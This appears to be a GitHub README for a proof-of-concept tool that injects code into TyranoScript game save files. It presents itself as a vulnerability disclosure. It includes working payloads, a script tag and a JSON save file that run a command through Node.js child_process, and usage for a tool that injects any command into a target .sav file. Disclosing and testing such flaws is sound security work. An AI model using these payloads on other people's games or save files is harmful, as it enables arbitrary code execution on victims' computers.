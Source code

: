 # TyranoKiller
👻 Code injection tool for TyranoScript (Tyrano series).  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠Do not use save files or game development data received from others!!!!⚠**  

The vulnerability was disclosed after 365 days of reporting to [IPA](https://www.ipa.go.jp/) and developers.
I have also received a response that it is not a vulnerability.
This PoC was created to alert users and investigate vulnerabilities in their own games, and is not to be used for attacks.
Using them in games created by others may be prohibited by law.

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The following software is vulnerable.
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.11d)  
- (TyranoScript <= 4.88)  

The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
It is not necessary to use the original game save data to reproduce the vulnerability.
The following save data will match all formats and execute the code.
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(Sample Game: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  
